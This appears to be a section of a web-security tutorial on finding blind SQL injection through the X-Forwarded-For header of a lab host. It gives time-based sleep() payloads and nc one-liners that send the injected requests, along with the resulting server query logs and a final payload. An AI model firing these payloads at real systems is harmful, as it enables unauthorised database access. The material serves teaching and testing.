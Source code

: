#### 7.1. Intro

Some HTTP headers:
```
Host:
User-Agent:
X-Forwarded-Host:
X-Forwarded-For:
```
(get client-ip when app is behind reverse-proxy; used instead of $_SERVER['REMOTE_ADDR'])

Sending raw HTTP requests via nc:
```
$ echo -e "HEAD / HTTP/1.0\r\nConnection: close\r\n" | nc vuln.loc 80
$ echo -e "HEAD / HTTP/1.0\r\nHost: vuln.loc\r\nConnection: close\r\n" | nc vuln.loc 80
```

Notes:
  - General pessimistic-injection-approach (BLIND):
  
    1. default : inj=true_conditionA
  
    2. modified: inj=[false_conditionA OR true_conditionB AND ]true_conditionA
  
          * false_conditionA has the same format as true_conditionA
          
          * forces evaluation on true_conditionB => true_conditionB AND true_conditionA
          
  - BLIND payloads:
    * `car' or sleep(4)#`
    * `car' or sleep(0)-- -`
    * `car' or sleep(4) and '1'='1`
    * `car' or sleep(0) and '1'='1`

#### 7.2. Looking for Blind-SQLi in `X-Forwarded-For` header

Regular usage
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: test123\r\nConnection: close\r\n" | nc vuln.loc 80
Query	SELECT * FROM stats where ip='test123'
Query	INSERT INTO stats (ip, count) VALUES ('test123',1)
```

Error based detection won't work here (break SQL query with meta-character `'`)
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: abcd'\r\nConnection: close\r\n" | nc vuln.loc 80
Query	SELECT * FROM stats where ip='abcd''
```

`false OR true` query (returns true)
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: $RANDOM' or '1'='1\r\nConnection: close\r\n" | nc vuln.loc 80
Query	SELECT * FROM stats where ip='23111' or '1'='1'
Query	UPDATE stats set count=count+1 where ip='23111' or '1'='1'
```

`false AND false` query (returns false)
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: $RANDOM' and '6'='7\r\nConnection: close\r\n" | nc vuln.loc 80
Query	SELECT * FROM stats where ip='25507' and '6'='7'
Query	INSERT INTO stats (ip, count) VALUES ('25507' and '6'='7',1)
```

`inj=false_condition or sleep(x) and true_condition` (evaluated as true)
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: $RANDOM' or sleep(1) and '7'='7\r\nConnection: close\r\n" | nc vuln.loc 80
Query	SELECT * FROM stats where ip='1815' or sleep(1) and '7'='7'
Query	INSERT INTO stats (ip, count) VALUES ('1815' or sleep(1) and '7'='7',1)
```

Repeat previous attack with `sleep(0)`
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: $RANDOM' or sleep(0) and '7'='7\r\nConnection: close\r\n" | nc vuln.loc 80
Query	SELECT * FROM stats where ip='2075' or sleep(0) and '7'='7'
Query	INSERT INTO stats (ip, count) VALUES ('2075' or sleep(0) and '7'='7',1)
```

Final payload
```
$ echo -e "GET / HTTP/1.0\r\nX-Forwarded-For: abc' or sleep(4)#Connection: close\r\n" | nc vuln.loc 80
```
